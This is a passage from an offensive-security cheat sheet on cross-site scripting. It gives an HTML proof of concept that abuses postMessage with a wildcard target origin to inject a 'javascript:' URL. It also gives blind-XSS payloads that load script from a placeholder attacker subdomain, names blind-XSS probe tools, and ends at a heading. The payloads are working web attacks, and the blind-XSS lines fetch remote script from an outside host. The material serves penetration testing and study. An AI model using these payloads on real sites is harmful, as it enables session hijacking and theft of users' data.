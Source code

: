 ## XSS in PostMessage

> If the target origin is asterisk * the message can be sent to any domain has reference to the child page.

```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
    }, 2000);
}
</script>
</html>
```

## Blind XSS

### XSS Hunter

XSS Hunter is deprecated, it was available at [https://xsshunter.com/app](https://xsshunter.com/app). You can set up an alternative version from [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

```xml
"><script src=//<your.subdomain>.xss.ht></script>
<script>$.getScript("//<your.subdomain>.xss.ht")</script>
```

### Other Blind XSS tools

- [sleepy-puppy - Netflix](https://github.com/Netflix-Skunkworks/sleepy-puppy)
- [bXSS - LewisArdern](https://github.com/LewisArdern/bXSS)
- [ezXSS - ssl](https://github.com/ssl/ezXSS)

### Blind XSS endpoint
